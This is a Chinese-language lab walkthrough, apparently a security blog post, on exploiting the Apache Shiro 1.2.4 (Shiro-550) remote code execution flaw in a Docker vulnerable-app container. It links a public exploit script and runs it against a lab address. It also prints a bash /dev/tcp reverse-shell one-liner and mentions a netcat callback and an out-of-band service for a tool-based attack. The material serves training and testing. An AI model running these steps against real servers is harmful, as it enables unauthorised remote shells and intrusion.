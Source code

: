 docker run -d -p 8081:8080 medicean/vulapps:s_shiro_1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1cNEgDplElePkce1RGIWiaygs375OIDtO2pvpIhPol9OIeQBdF6VbW9g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
访问：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1TibRFpicEaNmQW8tap1pnSKBhvwa0dibibtbBmv2iaWeOUhVLgnkQsA22kg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1ESicluBY26aOwFrZMpGdV1icpWzibkiawdicGwhvibRrHWKhXAZeoJoZPUEA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
抓包分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1tTWAVlmYgGjTibpBI3oYwqdEJ7oPZCxj7pO30W2xk1fwEghbZvNaqsA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
### 2.漏洞利用（1）—脚本攻击  
  
1. 下载shiro利用脚本，下载地址https://github.com/zhzyker/shiro-1.2.4-rce  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1Tp85XRczSblia5sWItGrpmpXLfqgc67w3pQkvtPPK5QOLOuf9ocvanw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
2 . 使用工具进行验证  
  
python3 shiro-1.2.4_rce.py   
http://10.10.10.128:8081/login  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1T0O93aDJiajiakccHVFKWJ5DmqjnW9lR6X7WD6icXrHBWnUy8cS9p1org/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
3.使用linux进入linuxshell模式。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1oISkXwpOPibpBicAW4OXxgjYoMwSiaicfkHbw6C5fcGKABnbKXyJLrK1jQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
1. windos ：bash -i >& /dev/tcp/10.10.10.128:8080/ 0>&1  
  
linux系统需要编码之后，绕后再进行nc反弹。  
  
http://www.jackson-t.ca/runtime-exec-payloads.html  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1vMV1JcIJkrnRR9BAfAHxYDicjyJHbulzWpbV2iagq2hDznaOdQ8wZmeA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
5.然后使用nc反弹  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN18BUplsBgJ5WXic43AyOnian6qcy0c6u2iaUHBfFwOj91wnLdjhZOuAKicw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
### 漏洞利用（2）—自动化工具攻击  
  
1.选择shiro550  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1IcqufQ9JoTkZ7wvNiazP5WZKP77zdOs5vWBlAUYQUQA1XDGQfyIb64Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
2.然后使用ceye.io进行利用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1Sfo7I5k2nkibJPXB4Via11HtPOib3WAfdST9qaMIFRgv7HoAsSvgljH1Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
3.验证key值  
  
